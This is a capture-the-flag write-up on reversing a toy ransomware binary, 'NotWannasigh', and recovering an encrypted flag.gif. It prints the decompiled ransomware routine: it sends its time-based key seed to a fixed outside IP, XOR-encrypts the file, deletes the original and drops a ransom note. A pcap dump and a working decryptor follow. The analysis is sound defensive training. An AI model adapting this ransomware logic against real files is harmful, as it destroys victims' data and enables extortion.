

# NotWannasigh

## Description

Please help! An evil script-kiddie (seriously, this is some bad code) was able to get this ransomware "NotWannasigh" onto one of our computers. The program ran and encrypted our file "flag.gif".

These are the resources we were able to gather for you:

    NotWannasigh.zip - the malicious ransomware executable
    flag-gif.EnCiPhErEd - our poor encrypted file that we need you to recover
    ransomNote.txt - the note left behind by the ransomware. I'm not sure you'll find anything usefull here
    192-168-1-11_potential-malware.pcap - a packet capture that our IDS isolated, it seems that the program has some weird form of data exfiltration

We need you to reverse the malware and recover our flag.gif file. Good luck!

A note from the creator: Shoutout to Demonslay335 for challenge inspiration - he's done some awesome work in fighting ransomware. Also, the ransomware in this challenge is programmed to only target files named "flag.gif" so you shouldn't need to worry about the accidental execution, I just zipped it out of habit/good practice. Have fun and happy hacking!

    Abjuri5t (John F.)

* http://us-east-1.linodeobjects.com/wpictf-challenge-files/192-168-1-11_potential-malware.pcap
* http://us-east-1.linodeobjects.com/wpictf-challenge-files/ransomNote.txt
* http://us-east-1.linodeobjects.com/wpictf-challenge-files/flag-gif.EnCiPhErEd
* http://us-east-1.linodeobjects.com/wpictf-challenge-files/NotWannasigh.zip

## What are we dealing with?

```
kali@kali:~/Downloads/wipctf/wannasigh$ ls -l
total 384
-rw-r--r-- 1 kali kali   1155 Apr 16 14:25 192-168-1-11_potential-malware.pcap
-rw-r--r-- 1 kali kali 374109 Apr 16 19:52 flag-gif.EnCiPhErEd
-rw-r--r-- 1 kali kali   4238 Apr 16 14:24 NotWannasigh.zip
-rw-r--r-- 1 kali kali    541 Apr 16 14:24 ransomNote.txt
kali@kali:~/Downloads/wipctf/wannasigh$ cat ransomNote.txt 
Haha! Your precious file flag.gif has been encrypted by my new and improved ransomware NotWannasigh! You must send bitcoin to "bitpay.com/83768" to get the decryption key. You should act fast because in 48 hours I will delete the key. Muahahahaha!
 - def-not-h4ckah

(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. If you send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey, that's really nice of you, Mental Health Hackers is a great organization). I will NOT send you the decryption key)
kali@kali:~/Downloads/wipctf/wannasigh$ unzip NotWannasigh.zip 
Archive:  NotWannasigh.zip
  inflating: NotWannasigh            
kali@kali:~/Downloads/wipctf/wannasigh$ file NotWannasigh
NotWannasigh: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ca17985d5f493aded88f81b8bfa47206118c6c9f, for GNU/Linux 3.2.0, not stripped
```

## Analysis

Open the binary in Ghidra and decompile.
Let's start with `main()`... and hold your nose.

```
undefined8 main(void)
{
  byte bVar1;
  int iVar2;
  ssize_t sVar3;
  long lVar4;
  ulong uVar5;
  ulong uVar6;
  FILE *__stream;
  long alStack240 [5];
  char local_c2 [10];
  sa_family_t local_b8;
  uint16_t local_b6;
  in_addr_t local_b4;
  FILE *local_a0;
  FILE *local_98;
  byte local_89;
  undefined *local_88;
  long local_80;
  undefined *local_78;
  long local_70;
  uint local_64;
  FILE *local_60;
  int local_54;
  time_t local_50;
  int local_44;
  int local_40;
  int local_3c;
  
  alStack240[0] = 0x101279;
  local_50 = time((time_t *)0x0);
  alStack240[0] = 0x101288;
  srand((uint)local_50);
  alStack240[0] = 0x10129c;
  local_54 = socket(2,1,0);
  if (local_54 == -1) {
    alStack240[0] = 0x1012b1;
    puts("could not create socket");
  }
  else {
    alStack240[0] = 0x1012c2;
    puts("created socket");
    alStack240[0] = 0x1012ce;
    local_b4 = inet_addr("108.61.127.136");
    local_b8 = 2;
    alStack240[0] = 0x1012e7;
    local_b6 = htons(0x50);
    alStack240[0] = 0x101307;
    iVar2 = connect(local_54,(sockaddr *)&local_b8,0x10);
    if (iVar2 < 0) {
      alStack240[0] = 0x101317;
      puts("connect error");
    }
    else {
      alStack240[0] = 0x101325;
      puts("connected");
      alStack240[0] = 0x101344;
      sprintf(local_c2,"%d",local_50);
      alStack240[0] = 0x10135f;
      sVar3 = send(local_54,local_c2,10,0);
      if (sVar3 < 0) {
        alStack240[0] = 0x101370;
        puts("send failed");
      }
      else {
        alStack240[0] = 0x10137e;
        puts("sent");
      }
    }
  }
  alStack240[0] = 0x10138a;
  puts("targetting flag.gif");
  alStack240[0] = 0x10139d;
  local_60 = fopen("flag.gif","r+");
  alStack240[0] = 0x1013b7;
  fseek(local_60,0,2);
  alStack240[0] = 0x1013c3;
  lVar4 = ftell(local_60);
  local_64 = (uint)lVar4;
  alStack240[0] = 0x1013dc;
  fseek(local_60,0,0);
  alStack240[0] = 0x1013f2;
  printf("fileSize = %d\n",(ulong)local_64);
  local_70 = (long)(int)local_64 + -1;
  alStack240[3] = (long)(int)local_64;
  alStack240[4] = 0;
  uVar5 = ((long)(int)local_64 + 0xfU) / 0x10;
  local_78 = (undefined *)(alStack240[1] + uVar5 * 0x1ffffffffffffffe);
  local_44 = 0;
  while (local_44 < (int)local_64) {
    alStack240[uVar5 * 0x1ffffffffffffffe] = 0x10145c;
    iVar2 = rand(*(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe));
    local_78[local_44] = (char)iVar2;
    local_44 = local_44 + 1;
  }
  alStack240[uVar5 * 0x1ffffffffffffffe] = 0x10148d;
  puts("key generated by 256",*(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe));
  local_80 = (long)(int)local_64 + -1;
  alStack240[1] = (long)(int)local_64;
  alStack240[2] = 0;
  uVar6 = ((long)(int)local_64 + 0xfU) / 0x10;
  local_88 = (undefined *)(alStack240[1] + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe);
  local_40 = 0;
  while( true ) {
    __stream = local_60;
    alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101529;
    iVar2 = fgetc(__stream,*(undefined *)
                            (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
    __stream = local_60;
    local_89 = (byte)iVar2;
    if ((int)local_64 <= local_40) break;
    local_88[local_40] = local_78[local_40] ^ (byte)iVar2;
    local_40 = local_40 + 1;
  }
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101543;
  fclose(__stream,*(undefined *)
                   (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x10154f;
  remove("flag.gif",
         *(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101562;
  local_98 = fopen("flag-gif.EnCiPhErEd",&DAT_001020ae,
                   *(undefined *)
                    (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  local_3c = 0;
  while (__stream = local_98, local_3c < (int)local_64) {
    bVar1 = local_88[local_3c];
    alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101593;
    fputc((uint)bVar1,__stream,
          *(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
    local_3c = local_3c + 1;
  }
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015ae;
  fclose(__stream,*(undefined *)
                   (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015c1;
  __stream = fopen("ransomNote.txt",&DAT_001020ae,
                   *(undefined *)
                    (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  local_a0 = __stream;
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015e8;
  fwrite(
         "Haha! Your precious file flag.gif has been encrypted by my new and improved ransomwareNotWannasigh! You must send bitcoin to \"bitpay.com/83768\" to get the decryption key. Youshould act fast because in 48 hours I will delete the key. Muahahahaha!\n -def-not-h4ckah\n\n(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. Ifyou send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey,that\'s really nice of you, Mental Health Hackers is a great organization). I will NOTsend you the decryption key)\n"
         ,1,0x21d,__stream,
         *(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  __stream = local_a0;
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015f7;
  fclose(__stream,*(undefined *)
                   (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  return 0;
}
```

So removing the useless lines...

```
  local_50 = time((time_t *)0x0);
  srand((uint)local_50);
  local_54 = socket(2,1,0);
  if (local_54 == -1) {
    puts("could not create socket");
  }
  else {
    puts("created socket");
    local_b4 = inet_addr("108.61.127.136");
    local_b8 = 2;
    local_b6 = htons(0x50);
    iVar2 = connect(local_54,(sockaddr *)&local_b8,0x10);
    if (iVar2 < 0) {
      puts("connect error");
    }
    else {
      puts("connected");
      sprintf(local_c2,"%d",local_50);
      sVar3 = send(local_54,local_c2,10,0);
      if (sVar3 < 0) {
        puts("send failed");
      }
      else {
        puts("sent");
      }
    }
  }
```

That just phones home to a fixed IP address and sends a... I guess that's a randomly generated key based on the timestamp.

Let's check out the tcpdump

```
kali@kali:~/Downloads/wipctf/wannasigh$ tcpdump -A -r 192-168-1-11_potential-malware.pcap
reading from file 192-168-1-11_potential-malware.pcap, link-type EN10MB (Ethernet)
16:11:46.103899 IP 192.168.1.11.39520 > 108.61.127.136.vultr.com.http: Flags [S], seq 4131822382, win 64240, options [mss 1460,sackOK,TS val 2564290710 ecr 0,nop,wscale 7], length 0
E..<n!@.@.."....l=...`.P.F.....................
............
16:11:46.281817 IP 108.61.127.136.vultr.com.http > 192.168.1.11.39520: Flags [S.], seq 492191443, ack 4131822383, win 28960, options [mss 1460,sackOK,TS val 3255699858 ecr 2564290710,nop,wscale 7], length 0
E..<..@.3..Cl=.......P.`.V>..F./..q C..........
..      .........
16:11:46.281892 IP 192.168.1.11.39520 > 108.61.127.136.vultr.com.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 2564290888 ecr 3255699858], length 0
E..4n"@.@..)....l=...`.P.F./.V>......;.....
...H..  .
16:11:46.282091 IP 192.168.1.11.39520 > 108.61.127.136.vultr.com.http: Flags [P.], seq 1:11, ack 1, win 502, options [nop,nop,TS val 2564290888 ecr 3255699858], length 10: HTTP
E..>n#@.@.......l=...`.P.F./.V>............
...H..  .1585599106
16:11:46.318388 IP 192.168.1.11.39520 > 108.61.127.136.vultr.com.http: Flags [F.], seq 11, ack 1, win 502, options [nop,nop,TS val 2564290925 ecr 3255699858], length 0
E..4n$@.@..'....l=...`.P.F.9.V>............
...m..  .
16:11:46.469522 IP 108.61.127.136.vultr.com.http > 192.168.1.11.39520: Flags [.], ack 11, win 227, options [nop,nop,TS val 3255700045 ecr 2564290888], length 0
E..44.@.3.e.l=.......P.`.V>..F.9...........
..
M...H
16:11:46.469569 IP 108.61.127.136.vultr.com.http > 192.168.1.11.39520: Flags [P.], seq 1:310, ack 11, win 227, options [nop,nop,TS val 3255700045 ecr 2564290888], length 309: HTTP: HTTP/1.1 400 Bad Request
E..i4.@.3.d|l=.......P.`.V>..F.9....0R.....
..
M...HHTTP/1.1 400 Bad Request
Server: nginx/1.16.1
Date: Mon, 30 Mar 2020 20:14:58 GMT
Content-Type: text/html
Content-Length: 157
Connection: close

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.16.1</center>
</body>
</html>

16:11:46.469618 IP 192.168.1.11.39520 > 108.61.127.136.vultr.com.http: Flags [R], seq 4131822393, win 0, length 0
E..(..@.@..W....l=...`.P.F.9....P....6..
16:11:46.469672 IP 108.61.127.136.vultr.com.http > 192.168.1.11.39520: Flags [F.], seq 310, ack 11, win 227, options [nop,nop,TS val 3255700045 ecr 2564290888], length 0
E..44.@.3.e.l=.......P.`.V@     .F.9.....S.....
..
M...H
16:11:46.469691 IP 192.168.1.11.39520 > 108.61.127.136.vultr.com.http: Flags [R], seq 4131822393, win 0, length 0
E..(..@.@..W....l=...`.P.F.9....P....6..
```

From that tcpdump, the first 3 packets are a handshake (syn, syn/ack, ack).
The fourth one has the srand value that was sent to the remote IP:

```
16:11:46.282091 IP 192.168.1.11.39520 > 108.61.127.136.vultr.com.http: Flags [P.], seq 1:11, ack 1, win 502, options [nop,nop,TS val 2564290888 ecr 3255699858], length 10: HTTP
E..>n#@.@.......l=...`.P.F./.V>............
...H..  .1585599106
```

srand: 1585599106

This next part of `main()` opens `flag.gif` for reading and prints the filesize:

```
  puts("targetting flag.gif");
  local_60 = fopen("flag.gif","r+");
  fseek(local_60,0,2);
  lVar4 = ftell(local_60);
  local_64 = (uint)lVar4;
  fseek(local_60,0,0);
  alStack240[0] = 0x1013f2;
  printf("fileSize = %d\n",(ulong)local_64);
```

This encrypts the stream:

```
  local_70 = (long)(int)local_64 + -1;
  alStack240[3] = (long)(int)local_64;
  alStack240[4] = 0;
  uVar5 = ((long)(int)local_64 + 0xfU) / 0x10;
  local_78 = (undefined *)(alStack240[1] + uVar5 * 0x1ffffffffffffffe);
  local_44 = 0;
  while (local_44 < (int)local_64) {
    alStack240[uVar5 * 0x1ffffffffffffffe] = 0x10145c;
    iVar2 = rand(*(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe));
    local_78[local_44] = (char)iVar2;
    local_44 = local_44 + 1;
  }
  alStack240[uVar5 * 0x1ffffffffffffffe] = 0x10148d;
  puts("key generated by 256",*(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe));
  local_80 = (long)(int)local_64 + -1;
  alStack240[1] = (long)(int)local_64;
  alStack240[2] = 0;
  uVar6 = ((long)(int)local_64 + 0xfU) / 0x10;
  local_88 = (undefined *)(alStack240[1] + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe);
  local_40 = 0;
  while( true ) {
    __stream = local_60;
    alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101529;
    iVar2 = fgetc(__stream,*(undefined *)
                            (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
    __stream = local_60;
    local_89 = (byte)iVar2;
    if ((int)local_64 <= local_40) break;
    local_88[local_40] = local_78[local_40] ^ (byte)iVar2;
    local_40 = local_40 + 1;
  }
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101543;
```

Close `flag.gif`:

```
  fclose(__stream,*(undefined *)
                   (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x10154f;
```

Remove `flag.gif`:

```
  remove("flag.gif",
         *(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101562;
```

Write the encrypted file

```
  local_98 = fopen("flag-gif.EnCiPhErEd",&DAT_001020ae,
                   *(undefined *)
                    (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  local_3c = 0;
  while (__stream = local_98, local_3c < (int)local_64) {
    bVar1 = local_88[local_3c];
    alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x101593;
    fputc((uint)bVar1,__stream,
          *(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
    local_3c = local_3c + 1;
  }
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015ae;
  fclose(__stream,*(undefined *)
                   (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015c1;
```

This last part obviously creates the ransom note:

```
  __stream = fopen("ransomNote.txt",&DAT_001020ae,
                   *(undefined *)
                    (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  local_a0 = __stream;
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015e8;
  fwrite(
         "Haha! Your precious file flag.gif has been encrypted by my new and improved ransomwareNotWannasigh! You must send bitcoin to \"bitpay.com/83768\" to get the decryption key. Youshould act fast because in 48 hours I will delete the key. Muahahahaha!\n -def-not-h4ckah\n\n(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. Ifyou send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey,that\'s really nice of you, Mental Health Hackers is a great organization). I will NOTsend you the decryption key)\n"
         ,1,0x21d,__stream,
         *(undefined *)(alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  __stream = local_a0;
  alStack240[uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe] = 0x1015f7;
  fclose(__stream,*(undefined *)
                   (alStack240 + uVar5 * 0x1ffffffffffffffe + uVar6 * 0x1ffffffffffffffe));
  return 0;
}
```

It's just an XOR cipher, so it should be simple to reverse with that seed.

## Write decryption program

```
kali@kali:~/Downloads/wipctf/wannasigh$ cat decrypt.c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <sys/types.h>
#include <sys/socket.h>

int main()
{
        FILE *in;
        FILE *out;

        srand(1585599106); // from the tcpdump
        in = fopen("flag-gif.EnCiPhErEd","r+");
        out = fopen("flag.gif","w");
        if (!in || !out) {
                printf("failed to malloc or open something.\n");
                return 1;
        }
        fseek(in,0,2); // seek to end
        size_t input_size = ftell(in); // get file size
        fseek(in,0,0); // seek to start

        // decrypt input file byte by byte with XOR cipher
        for (int i = 0; i < input_size; i++) {
                char c_in, c_out;
                char r = (char)rand();
                c_in = fgetc(in);
                c_out = c_in ^ r;
                fputc(c_out,out);
        }

        fclose(out);
        fclose(in);
        return 0;
}
```

## Get the flag

```
kali@kali:~/Downloads/wipctf/wannasigh$ gcc decrypt.c -o decrypt
kali@kali:~/Downloads/wipctf/wannasigh$ ./decrypt
kali@kali:~/Downloads/wipctf/wannasigh$ ls
192-168-1-11_potential-malware.pcap  decrypt.ref.c        NotWannasigh
decrypt                              flag.gif             NotWannasigh.zip
decrypt.c                            flag-gif.EnCiPhErEd  ransomNote.txt
kali@kali:~/Downloads/wipctf/wannasigh$ file flag.gif
flag.gif: GIF image data, version 89a, 220 x 124
```

Open the gif in gimp and zoom in.



The flag is:

```
WPI{It_always_feels_a_little_weird_writing_malware}
```

